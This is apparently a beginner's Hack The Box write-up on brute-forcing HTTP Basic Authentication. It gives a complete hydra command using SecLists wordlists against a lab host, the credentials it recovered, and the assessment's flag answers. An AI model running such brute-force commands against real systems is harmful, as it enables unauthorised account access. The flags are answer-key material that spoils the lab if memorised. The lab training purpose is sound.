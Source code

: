 
Hello Hackers!

Welcome to my First Blog. This is my first time writing a writeup so please correct me if i write something wrong.

First, We spawn the target and head over to new tab to see what's going on


![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing/assets/skill-assessment1image/01.png)

We see that we can't establish connection yet. and Looking at the question of this assessment. We can see that the target has Basic HTTP Authentication on the webpage to restrict us from seeing the contents

Lets Luanch hydra and try to brute force this.

```
hydra -L /home/<username>/SecLists/Usernames/top-usernames-shortlist.txt -P /home/<username>/SecLists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -V 94.237.53.81 http-get / -s 49717 -f
```
![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing/assets/skill-assessment1image/2.png)
![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing/assets/skill-assessment1image/3.png)

There, we found the credentials

```
admin:Admin123
```

Lets try loggin with our browser now and enter the credentials we found.

![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing/assets/skill-assessment1image/4.png)

![alt text](https://github.com/Parveen-Rawat/HTB_Write-ups/blob/main/Login-Brute-Forcing/assets/skill-assessment1image/5.png)

There we go, Bingo


`Congratulations Hackers!!` we found our flags

```
Flag1 : Admin123
Flag2 : satwossh
```

Remember the username we found as it will be needed in skill-assessment2

This marks the end of this section. See you in next blog~~~
